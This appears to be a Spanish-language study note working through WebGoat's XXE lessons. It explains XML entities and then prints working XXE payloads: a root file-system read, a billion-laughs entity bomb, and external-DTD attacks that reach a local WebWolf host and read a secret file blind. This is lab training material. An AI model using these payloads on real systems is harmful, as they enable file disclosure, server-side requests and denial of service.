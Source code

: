 # XML External Entities (XXE)

## ¿Qué son?
Definición de etiquetas que serán reemplazadas al leer un XML. Hay 3 tipos.
+ entidades internas
+ entidades externas
+ entidades de parámetros

```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

En todos los lugares que se utiliza `&js;` el analizador lo reemplazará.

## Tipos de ataques XXE
+ Clásico: en este caso, se incluye una entidad externa en un DTD local
+ Ciego: no se muestran resultados ni errores en la respuesta
+ Error: intente obtener el contenido de un recurso en el mensaje de error

*********************************************************************

# Let's try (3)
```xml
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY xxe SYSTEM "/">
]>
<comment><text>&xxe;</text></comment>
```

*********************************************************************

# Códigos XXE interesantes

## XXE DOS attack
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

*******************************************************************

## attack.dtd
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://127.0.0.1:9090/landing'>
```

## Ahora envíe el formulario, cambie el xml usando a:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:9090/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

## Ahora en WebWolf busque 'requests' y verá:
```json
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}

```

*********************************************************************

# Blind XXE assignment (7)

## Creamos un archivo con nuestro payload en nuestro webwolft

## attack2.dtd
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY cat SYSTEM '/home/user/.webgoat-@project.version@//XXE/secret.txt'>
```

## Modificamos la petición por el siguiente payload
```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:9090/WebWolf/files/attack2.dtd">
%remote;
]>
<comment>
  <text>&cat;</text>
</comment>
```

*********************************************************************

# Referencias interesantes
+ https://enciphers.com/how-to-exploit-xxe-vulnerabilities/
+ https://blog.netspi.com/playing-content-type-xxe-json-endpoints/
+ https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/
+ https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html